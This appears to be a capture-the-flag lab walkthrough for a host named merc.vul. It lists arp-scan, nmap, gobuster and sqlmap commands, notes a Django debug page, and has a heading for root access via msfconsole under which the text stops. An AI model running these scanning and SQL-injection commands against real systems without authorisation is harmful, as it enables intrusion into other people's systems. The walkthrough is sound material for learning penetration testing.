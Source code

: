 # TITLE
'url'

## Step 1: Discovery
### Command used: arp-scan<br>
<br>

```
arp-scan --interface=ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.91	08:00:27:dc:40:fb	PCS Systemtechnik GmbH
```

## Step 2: Port scan
<i>A full scan determined ports 22 and 8080 were open, and a hosts entry was created for the IP</i>

### Command used: nmap
<br>

```
nmap -T4 -sV -p22,8080 merc.vul

Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 17:00 CDT
Nmap scan report for merc.vul (172.16.250.91)
Host is up (0.00055s latency).
```

## Step 3: HTTP enumeration
### Command used: gobuster
<br>

```
gobuster dir --url http://merc.vul:8080 --wordlist /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
```

Browsing the URL in the browser didn't reveal anything, until we added text to the end, such as a * or /admin. This revealed an error page indicating Django was installed and DEBUG mode was enabled.<br><br>

![browsing the url](./docs/files/file.png)

NOTES AND STEPS:<br><br>

## Step 4: SQL injection
### You can either manually try strings, or use a tool like SQLMap
<br>

### Command used: SQLMap
<br>

```
sqlmap -u http://merc.vul:8080/mercuryfacts/1 --answers="follow=Y" --batch

      ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

---

### Command used: none / browser URL strings

## Step 5: SSH and root access
### Command used: msfconsole
<br>

